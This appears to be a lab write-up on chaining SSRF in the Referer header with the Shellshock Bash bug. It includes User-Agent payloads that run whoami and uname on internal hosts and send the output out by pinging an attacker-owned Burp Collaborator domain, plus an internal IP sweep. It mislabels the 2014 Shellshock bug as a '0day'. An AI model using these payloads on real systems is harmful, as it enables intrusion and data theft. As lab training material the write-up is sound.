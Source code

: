 # Vulnerability Report on SSRF chain with Shellshock

# `SSRF`exploit via Shellshock ******************************at****************************** `https://[IP].web-security-academy.net/product?productId=1` ********************************to Remote Code Execute********************************

## Description and Impact

> `https://[IP].web-security-academy.net/product?productId=1` is a shop product detail page that is exposed to the WWW, but due to the referrer field in the request, it is possible to infiltrate the internal network with the help of a 0day vulnerability dubbed Shellshock in Bash, which grants the attacker remote execution.
> 

## Step to Reproduce

From this time, we totally can made a request to the outside through referrer field. So, the question we need to answer right now is ***how to perform an IP scanner while making request of that IP to the outside server which we owned ( in this case is Burp Collaborator ).***

Hint from the lab: Shellshock payload

Back to the request we made at the moment. We may want to exploit with the help of [Shellshock](https://nvd.nist.gov/vuln/detail/CVE-2014-6271#match-7146748).

![Untitled](Vulnerability%20Report%20on%20SSRF%20chain%20with%20Shellshock%20e69fb6b27fb74614b00c32980e5c7ba9/Untitled.png)

```bash
env x='() { :;}; echo vulnerable' bash -c "echo test"
```

Sample PoC suggest that the field we want to drop the command will we parsed by the Bash and due to that behavior, it will make a connection to the outside world with the deserved command. Similar to OS command injection but in this case, it chain with a 0day vulnerable to successful exploit the target. Noted from the discover above, the 2nd request to burp collab link contains User-Agent field, which is then be logged by the http service running on the machine in the internal network.

![Untitled](Vulnerability%20Report%20on%20SSRF%20chain%20with%20Shellshock%20e69fb6b27fb74614b00c32980e5c7ba9/Untitled%201.png)

In this case, referrer should be the place we want to put the IP range that provided from the lab for scanning, this will be the 1st request. The 2nd request will come from the IP that expose to the WWW, and inside this 2nd request, User-Agent field should be use as the place the shockshell perform the task, which it run the command and make a connection to the outside server we owned. The process will look like diagram below:

![Untitled Diagram.drawio (1).png](Vulnerability%20Report%20on%20SSRF%20chain%20with%20Shellshock%20e69fb6b27fb74614b00c32980e5c7ba9/Untitled_Diagram.drawio_(1).png)

```bash
User-Agent: () { exp;}; echo; /usr/bin/ping $(whoami).[IP].oastify.com
```

Transfer the request to intruder, set range of the IP from 1-255 and put the payload we already prepare.

![Untitled](Vulnerability%20Report%20on%20SSRF%20chain%20with%20Shellshock%20e69fb6b27fb74614b00c32980e5c7ba9/Untitled%202.png)

Proved that every request is possible due to 200 response. But we want a connection to the outside world from the internal machine of the lab. Polled in Burp Collaborator:

![Untitled](Vulnerability%20Report%20on%20SSRF%20chain%20with%20Shellshock%20e69fb6b27fb74614b00c32980e5c7ba9/Untitled%203.png)

We saw that we receive 4 difference IP address that make the same task which ping to the domain we take from burp collaborator. Prove that the theory answered the question we made before. And it also prove that we can infiltrate the internal space through the chain of SSRF and Shellshock 0day vulnerable.

To solve the lab, just take the name of the machine, which is performed by `$(whoami)` and append to the burp collab link.

We can run difference command to infiltrate the internal service

![Untitled](Vulnerability%20Report%20on%20SSRF%20chain%20with%20Shellshock%20e69fb6b27fb74614b00c32980e5c7ba9/Untitled%204.png)

```bash
User-Agent: () { exp;}; echo; /usr/bin/ping $(uname).[IP].oastify.com
```

## Recommendations

Patch the internal server

Anti SSRF technique

White list domain/IP/URL

Input validation
WAF

## References

SSRF in the nutshell: [https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf](https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf)

Testing guide: [https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)
Cheat sheet: [https://highon.coffee/blog/ssrf-cheat-sheet/](https://highon.coffee/blog/ssrf-cheat-sheet/)
ShellShock report the new york time: [https://www.nytimes.com/2014/09/26/technology/security-experts-expect-shellshock-software-bug-to-be-significant.html](https://www.nytimes.com/2014/09/26/technology/security-experts-expect-shellshock-software-bug-to-be-significant.html)

Technical report: [https://resources.infosecinstitute.com/topic/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/](https://resources.infosecinstitute.com/topic/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/)

CGI: [https://en.wikipedia.org/wiki/Common_Gateway_Interface](https://en.wikipedia.org/wiki/Common_Gateway_Interface)

Bash patch right after the CVE reveal: https://github.com/gitGNU/gnu_bash/commit/b64a0e1d0b412cedda763a32d6e5cd6927333f02

PoC produce by RedHat: [https://access.redhat.com/articles/1200223](https://access.redhat.com/articles/1200223)